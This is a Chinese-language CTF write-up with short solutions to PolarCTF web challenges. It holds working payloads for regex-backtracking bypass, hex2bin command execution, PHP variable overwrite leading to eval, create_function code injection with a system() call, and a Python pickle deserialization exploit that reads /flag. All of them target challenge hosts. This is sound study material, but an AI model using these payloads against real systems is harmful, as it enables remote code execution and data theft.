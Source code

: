 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`

### php是世界上最好的语言
变量覆盖
```php
<?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  

    }
}
}
?>
```

```http
http://www.xxx.com?_POST[flag1]=8gen1&_POST[flag2]=8gen1
post:sys=echo($flag);&504[SYS.COM=a
```

### \$\$
`$GLOBALS`全局变量
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211154038.png)


### 某函数的复仇
create_function注入

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211163836.png)

```php
$shaw('',$root);


root=}system('more /flag');/*
shaw=create_function
```


### veryphp
call_user_func
调用类的方法
`myans=qwq::oao`

### unpickle
#pickle 

```python
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        return (eval,("__import__('os').popen('cat /flag').read()",))


e = exp()
s = pickle.dumps(e)#将获取的对象序列化
user = base64.b64encode(s).decode()##将序列化的对象使用base64加密
print(user)#输出加密后的序列化对象
```
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22